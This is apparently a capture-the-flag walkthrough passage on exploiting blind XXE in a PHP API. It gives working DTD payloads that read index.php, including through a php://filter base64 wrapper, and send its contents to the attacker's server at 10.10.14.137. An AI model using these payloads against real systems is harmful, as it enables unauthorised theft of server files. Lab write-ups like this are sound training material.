 ```jsx
<!ENTITY % file SYSTEM "index.php">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://10.10.14.137/?x=%file;'>">
%eval;
%exfiltrate;
```

This is going to be the contents of evil.dtd which will be requested in this kind of POST request for the manage_api argument.

```jsx
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://10.10.14.137/evil.dtd"> %xxe;]>
<root>
	<method>POST</method>
	<uri>/auth/register</uri>
	<user>
		<username>lmao</username>
		<password>lmaoao</password>
	</user>
</root>
```

What I am doing here is appending an external entity in `evil.dtd` which is hosted on my end and exfiltrates data back in the form of a get request to my system.

![](https://i.imgur.com/cAoW66V.png)

Upon sending the request, it works! It is indeed vulnerable to XXE! The next issue is that we need to actually exfiltrate meaningful data. We know this is a PHP site since we have the cookie `PHPSESSID` so there is no reason for `index.php` to not be found unless we need to bypass some sort of filter. Well we can try just that with this new payload here. We just need to use a PHP filer instead.

```jsx
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=index.php">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://10.10.14.137/?x=%file;'>">
%eval;
%exfiltrate;
```

![](https://i.imgur.com/okw4qpW.png)


Bingo we get a hit! All we need to do is base64 decode this data and we get the contents of `index.php`.

<aside>
❓ **Wait wait wait, what’s going on?**
Let me try to explain what happened here. I sent in a valid post request utilizing an actual API request from earlier but appended the external entity into it. This is in the line: `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://10.10.14.137/evil.dtd"> %xxe;]>`
This calls back to my webserver and loads in a file, `index.php` and sends it to my webserver again through the URL. So that base64 output you are seeing, that’s the `index.php` page encoded and sent straight back to me.

</aside>
